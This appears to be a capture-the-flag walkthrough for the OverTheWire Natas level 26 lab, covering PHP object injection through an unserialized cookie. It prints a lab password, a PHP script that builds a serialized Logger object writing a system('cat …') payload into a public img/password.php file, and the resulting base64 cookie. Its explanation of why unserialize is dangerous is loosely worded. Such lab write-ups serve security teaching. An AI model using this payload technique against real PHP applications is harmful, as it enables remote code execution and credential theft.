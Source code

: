 # Level 25 - Level 26

```
Username: natas26
Password: 8A506rfIAXbKKk68yJeuTuRq4UfcK70k
URL:      http://natas26.natas.labs.overthewire.org
```

## Overview

This time we got page with four inputs and a link to the source code.

<figure><img src="../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

***

## Source Code Analysis

Let's take a look at the source code.

There is class `Logger`, which basically logs the message to the defined `logFile`.

<figure><img src="../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

I checked the entire source code, but there is no object is created with the class Logger, its not used anywhere.

Next, `the showImage()` function, simply shows the image file. The `drawImage()` function, creates an image witht the data from the `drawFromUserdata()` function.

<figure><img src="../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

The `drawFromUserdata()` function, first checks for the URL parameters x1, x2, y1, y2 and if it exists it generates the image. Next it checks out whether the cookie `drawing` exists, and if so, it base64 decodes the cookie `drawing` and `unserialize` the contents and generate the image using the contents that is decoded. Usage of PHP `unserialize` function on a cookie value is vulnerable, since the cookie can be modified by the user, and if the cookie contains php code snippets, it will be executed. To know more check the following resource:

{% embed url="https://www.php.net/manual/en/function.unserialize.php" %}

The `storeData()` function also utilizes the  PHP `unserialize` function, to read the cookie if present and set's the cookie.

<figure><img src="../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

***

## Exploiting the Vulnerability

We can leverage the above mentioned vulnerability to get the password for the next level. But for that we need a valid php serialized object, which reads the password file and display the output. For this purpose, we can make use of the `Logger()` function that we saw earlier, since we can generate a valid PHP object as it is a class and it writes the output to a file.

### Generating a Valid Cookie

If we are gonna get and store the password in a file, we have to make sure that its publicly accessible. So we have to store the output file in a location that we could access.&#x20;

<figure><img src="../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

From the source code we can see that the image files are located at `img` directory, which is publicly accessible. So we can make use of this directory. I copied the `Logger()` class and created a php script which will create a object with the `Logger()` class, `serialize` it and encode it using base64.

The following PHP script will perform the above mentioned action. I have made a few changes to the `__construct()` function, adding php code snippets that read the contents of the natas27 file and store it in the file that is located at `img/password.php`, which is publicly accessible. From the output of the below script, we will get a valid cookie \[ Ignore the errors generated by the script ].

{% code lineNumbers="true" %}
```php
<?php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct(){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/password.php";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
    
    $object = new Logger();
    
    echo base64_encode(serialize($object));
?>
```
{% endcode %}

Valid cookie generated by the above script:

{% code overflow="wrap" %}
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nL3Bhc3N3b3JkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```
{% endcode %}

I captured the request to the web page using burpsuite and modified the value of the cookie `drawing` with the cookie that we generated, which responded with an error, indicating successfull execution of code.

<figure><img src="../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

### Getting the Password

Now, to get the password, check the `img/password.php` file, you can see the credential for the next level.

<figure><img src="../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>
